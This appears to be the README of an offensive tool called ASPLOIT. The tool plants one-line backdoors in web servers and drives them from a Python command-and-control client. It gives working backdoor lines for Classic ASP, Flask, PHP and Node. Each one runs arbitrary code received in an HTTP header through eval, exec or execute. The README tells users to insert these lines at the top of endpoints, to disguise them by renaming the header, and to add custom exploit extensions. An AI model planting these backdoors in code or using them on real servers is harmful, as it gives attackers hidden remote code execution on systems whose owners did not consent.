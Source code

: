 # ASPLOIT
This tool allows you to deploy and exploit backdoors with one line of code in Classic ASP, Flask, NodeJS, and PHP servers.

# Backdoor
## Backdoor Genreation Script
Use the `create_backdoor.sh` script to generate the one line backdoor. The following is for reference.
## Classic ASP
Add the following line to the top of the file you want to have the backdoor
```
<% If request.servervariables("EXPLOIT") <> "" Then:execute(request.servervariables("EXPLOIT")):response.end:End If %>
```
## Flask
Add the following line to the top of the endpoint you want to have the backdoor
```
if request.headers.get('EXPLOIT'): global r;exec(__import__('base64').b64decode(request.headers.get('EXPLOIT').encode()).decode());return r;
```
## PHP
Add the following line to the top of the endpoint you want to have the backdoor
```
isset($_SERVER["HTTP_EXPLOIT"]) and eval($_SERVER["HTTP_EXPLOIT"]);
```
## Node
Add the following line to the endpoint you want to have the backdoor
```
if (req.headers?.exploit) return (eval('let r=res;let i=req;'+req.headers?.exploit));
```
Replace `res` with the `ServerResponse` parameter name, and replace `req` with the `IncomingRequest` parameter name.
## Notes
Any area where `EXPLOIT` or `exploit` is referenced can be replaced with any custom HTTP header (eg. for PHP, `HTTP_EXPLOIT` -> `HTTP_ANYTHINGYOUWANT`).

# Client
## Command and Controller
The C2 runs on Python. To start, run `main.py` in the `src` folder.

# Custom Backdoors/Exploits
## Loading Extensions
Load extensions using the `loadext` command before entering an exploit shell.

Run `help loadext` for more details.

## Creating Extensions
To make a custom exploit/extension, create a Python module containing a class/classes that extends the ExploitProcessor class.

View the `PHPExploitProcessor` in the `src` folder for an example of the implementation.

# Contributing
Any help in this project would be appreciated, and feel free to make pull requests for any custom extensions you create.
# Thank You
This repository was inspired by [PHPSPLOIT](https://github.com/nil0x42/phpsploit).
